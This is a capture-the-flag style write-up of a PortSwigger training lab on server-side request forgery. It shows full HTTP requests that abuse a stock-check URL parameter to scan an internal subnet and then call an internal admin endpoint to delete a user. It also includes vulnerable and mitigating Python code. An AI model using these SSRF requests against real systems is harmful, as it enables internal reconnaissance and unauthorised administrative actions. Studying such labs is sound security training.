



# Lab 02: Basic SSRF against Another Back-End System

> **Topic**: SSRF Vulnerabilities
> **Lab Number**: 02
> **Platform**: PortSwigger Web Security Academy

## Category
SSRF — Internal Network Enumeration via Unvalidated URL Parameter

## Vulnerability Summary
The application's stock-check feature accepts a full URL via the `stockApi` POST parameter and makes a server-side HTTP request to it with no validation on the destination. Unlike Lab 01 where the admin panel was on localhost, here the admin interface is running on an internal back-end server somewhere in the `192.168.0.0/24` subnet on port 8080. The exact IP is unknown, so Burp Intruder is used to enumerate all 255 possible last-octet values. The host that returns HTTP 200 is the admin panel. Once identified, the same SSRF primitive is used to issue the delete request directly.

## Attack Methodology

### Step 1: Recon
Opened a product page and clicked "Check stock". Intercepted the request in Burp and sent it to Intruder:

```
POST /product/stock HTTP/2
Host: 0a7700e0039d29d5803c084700cd0018.web-security-academy.net
Cookie: session=3g6aPvQx9VKUwgKdIPe4ulEFVW2D165t
Content-Type: application/x-www-form-urlencoded

stockApi=http://192.168.0.§1§:8080/admin
```

The `stockApi` value was set to `http://192.168.0.§1§:8080/admin` with the last octet marked as the injection point.

### Step 2: Configure Intruder to Enumerate the Subnet
Set the attack type to **Sniper**. Configured the payload as:

- Payload type: Numbers
- Range: 1 to 255, step 1
- Format: decimal, max 3 integer digits

This generates 255 requests, one per possible host in the `192.168.0.0/24` range.



### Step 3: Identify the Live Admin Host
Launched the attack and sorted results by status code. All hosts returned 400 or 500 except one:

| Request | Payload | Status | Length |
|---|---|---|---|
| 126 | 126 | 200 | 3378 |
| others | 1–255 | 400/500 | ~141–2581 |

Payload **126** returned HTTP 200 with a response length of 3378 — the admin panel HTML. The internal admin server is at `192.168.0.126:8080`.



### Step 4: Delete the Target User
Sent the stock-check request to Repeater and set `stockApi` to the delete endpoint on the identified host:

```
POST /product/stock HTTP/2
Host: 0a7700e0039d29d5803c084700cd0018.web-security-academy.net
Cookie: session=3g6aPvQx9VKUwgKdIPe4ulEFVW2D165t
Content-Type: application/x-www-form-urlencoded

stockApi=http://192.168.0.126:8080/admin/delete?username=carlos
```

Response:

```
HTTP/2 302 Found
Location: http://192.168.0.126:8080/admin
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

The server executed the deletion and redirected back to the admin panel. Lab solved.



## Technical Root Cause

```python
# Vulnerable — passes user-supplied URL directly to an HTTP client
def check_stock(request):
    stock_api_url = request.POST.get('stockApi')
    response = requests.get(stock_api_url)   # no validation, no allowlist
    return HttpResponse(response.content)
```

The application makes no distinction between external and internal destinations. The `stockApi` parameter accepts any URL — including RFC-1918 addresses — and the server dutifully fetches them and returns the response. The internal admin panel on `192.168.0.126:8080` has no authentication of its own; it relies entirely on not being reachable from the internet. SSRF breaks that assumption by routing the attacker's request through the application server, which sits inside the same internal network.

### Why This Works

| stockApi Value | Routed Through | Admin Reachable? | Result |
|---|---|---|---|
| `https://stock.weliketoshop.net/...` | Internet | N/A | Legitimate stock check |
| `http://192.168.0.1–255:8080/admin` | Internal network via app server | Yes (for .126) | Admin panel returned |
| `http://192.168.0.126:8080/admin/delete?username=carlos` | Internal network via app server | Yes | User deleted |

## Impact
- **Internal Network Enumeration**: The SSRF response body and status codes reveal which internal hosts are alive and what services they expose — effectively turning the application into a port scanner against its own infrastructure
- **Unauthenticated Admin Access**: The internal admin panel has no authentication, relying solely on network isolation that SSRF bypasses
- **Arbitrary User Deletion**: Full admin functionality accessible with no credentials
- **Broader Internal Attack Surface**: The same technique applies to any internal service reachable from the application server — databases, caches, cloud metadata endpoints, CI/CD systems

## Proof of Concept

**Step 1 — Enumerate the subnet (Intruder):**
```
POST /product/stock HTTP/2
Content-Type: application/x-www-form-urlencoded

stockApi=http://192.168.0.§1§:8080/admin
```
Payload: Numbers, 1–255, step 1. Look for HTTP 200 response.

**Step 2 — Delete target user (Repeater):**
```
POST /product/stock HTTP/2
Content-Type: application/x-www-form-urlencoded

stockApi=http://192.168.0.126:8080/admin/delete?username=carlos
```

## Key Takeaways
1. **SSRF Enables Internal Network Scanning**: Status codes and response lengths from SSRF requests are enough to map internal infrastructure. A 200 means the host is alive and the path exists; a 500 or connection error means it isn't. This is exactly how attackers enumerate internal networks in real engagements.
2. **Network Isolation Is Not a Security Control**: Placing an admin panel on an internal IP only works if nothing on the network can be made to proxy requests to it. Any SSRF vulnerability in an internet-facing application collapses that boundary.
3. **The Subnet Range Is Predictable**: Cloud and containerised environments commonly use `10.0.0.0/8`, `172.16.0.0/12`, and `192.168.0.0/16`. Enumerating a /24 takes 255 requests — trivial with Intruder.
4. **Response Differentiation Is the Signal**: In this lab the status code was the differentiator (200 vs 400/500). In blind SSRF scenarios, response time or out-of-band callbacks (Burp Collaborator) serve the same purpose.
5. **Lab 01 vs Lab 02**: Lab 01 targeted a known endpoint on localhost. Lab 02 adds an enumeration step because the target host is unknown — this is the more realistic scenario in real environments where internal service IPs are not documented.

## Mitigation

### 1. Validate the stockApi URL Against an Allowlist
```python
from urllib.parse import urlparse

ALLOWED_HOSTS = {'stock.weliketoshop.net'}

def check_stock(request):
    stock_api_url = request.POST.get('stockApi', '')
    parsed = urlparse(stock_api_url)
    if parsed.hostname not in ALLOWED_HOSTS:
        return HttpResponseForbidden('Invalid stockApi host')
    response = requests.get(stock_api_url)
    return HttpResponse(response.content)
```

### 2. Block Requests to Internal and Private Addresses
```python
import ipaddress, socket

def is_internal(hostname):
    try:
        ip = ipaddress.ip_address(socket.gethostbyname(hostname))
        return ip.is_loopback or ip.is_private
    except Exception:
        return True  # fail closed

parsed = urlparse(stock_api_url)
if is_internal(parsed.hostname):
    return HttpResponseForbidden('Internal addresses not permitted')
```

### 3. Add Authentication to Internal Admin Panels
```python
# Internal services must not rely on network origin for access control
def admin_panel(request):
    if not request.user.is_staff:
        return HttpResponseForbidden()
```

### 4. Use a Dedicated Egress Proxy with Strict Allowlisting
Route all server-side outbound requests through a proxy that enforces an allowlist, rather than allowing the application server to reach arbitrary internal addresses directly.

## References
- [PortSwigger SSRF Lab - Basic SSRF against Another Back-End System](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system)
- [PortSwigger SSRF — What is SSRF?](https://portswigger.net/web-security/ssrf)
- [OWASP SSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
- [CWE-918: Server-Side Request Forgery](https://cwe.mitre.org/data/definitions/918.html)

## Tools Used
- Burp Suite Professional (Proxy, Intruder, Repeater)
- Chromium

---

*Lab completed on: 2026-04-20*
*Writeup by vibhxr*
